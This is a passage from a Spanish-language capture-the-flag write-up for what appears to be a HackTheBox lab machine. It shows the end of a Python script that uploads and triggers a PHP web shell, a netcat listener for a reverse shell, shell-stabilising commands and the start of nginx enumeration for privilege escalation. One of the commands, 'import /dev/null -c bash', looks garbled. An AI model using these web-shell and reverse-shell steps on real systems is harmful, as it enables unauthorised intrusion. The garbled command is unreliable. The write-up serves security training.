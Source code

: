 ```python

------WebKitFormBoundaryc2w6QHu2wMC6QJV3--
"""

    requests.post(urlUpload, headers=headers, data=data)
    requests.get(url + 'uploads/shell.php')
    
if __name__ == '__main__':
    login()
    rce()
```

Podemos utilizar el ***script*** anterior o bien utilizar la webshell que habíamos subido para obtener una reverse shell. En ambos casos, nos tendremos que poner en escucha con netcat:

```bash
nc -nlvp 443
```

Recibiremos una shell como ***www-data***.

Una vez recibida la shell, deberemos hacerle un **tratamiento** para que nos permita poder hacer *Ctrl+C*, borrado de los comandos, movernos con las flechas… Los comandos que ingresaremos serán:

```bash
import /dev/null -c bash
*Ctrl+Z*
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

También deberemos ajustar el número de filas y de columnas de esta _shell_. Con el comando ***stty size*** podemos consultar nuestras filas y columnas y con el comando ***stty rows \<rows\> cols \<cols\>*** podemos ajustar estos campos.

Ahora deberemos escalar privilegios para convertirnos en el usuario ***player***.

##  Consiguiendo shell el usuario player 

### Reconocimiento como www-data 

#### Descubrimiento del subdominio soc-player.soccer.htb

Como sabemos que se estaba utilizando *nginx* para correr el sitio web, una ruta interesante para ver la configuración de los dominios es ***/etc/nginx/sites-avaliable***. Cada archivo de configuración en este directorio representa un sitio web configurado en el servidor Nginx. Dentro de este directorio encontramos un archivo llamado *soc_player.htb*:

```bash
bash-5.0$ ls /etc/nginx/sites-available/
default         soc-player.htb  
```
